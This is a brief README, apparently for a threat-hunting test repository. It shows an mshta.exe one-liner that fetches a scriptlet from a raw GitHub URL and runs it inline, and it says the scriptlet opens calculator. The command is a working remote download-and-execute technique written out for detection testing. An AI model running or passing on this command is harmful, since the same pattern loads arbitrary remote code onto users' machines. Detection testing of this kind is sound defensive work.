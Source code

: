 # TestThreatHunting
Using mshta.exe to preform scripts inline or from a URL

Test the following:
* mshta.exe javascript:a=(GetObject('script:https://raw.githubusercontent.com/0xMo/TestThreatHunting/main/PS1.sct')).Exec();close();
  - The will run a script from a URL to run calculator.
